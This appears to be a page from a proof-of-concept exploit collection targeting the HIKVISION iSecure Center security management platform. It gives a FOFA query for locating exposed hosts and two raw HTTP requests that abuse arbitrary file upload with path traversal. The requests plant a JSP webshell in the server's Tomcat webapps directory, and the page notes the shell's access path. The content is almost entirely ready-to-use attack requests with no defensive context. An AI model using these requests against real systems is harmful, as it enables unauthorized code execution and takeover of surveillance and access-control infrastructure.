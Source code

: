 ## fofa
```
app="HIKVISION-iSecure-Center"
```

## HiKVISION 综合安防管理平台 report 任意文件上传漏洞

```
POST /svm/api/external/report HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>

------WebKitFormBoundary9PggsiM755PLa54a--

马儿路径：/portal/ui/login/..;/..;/new.jsp

```

## HiKVISION 综合安防管理平台 files 任意文件上传漏洞
```
POST /center/api/files;.html HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>
------WebKitFormBoundary9PggsiM755PLa54a--
```
![image](https://github.com/wy876/POC/assets/139549762/8e3f6c98-9d8d-4ede-bd92-e16baee49a8d)
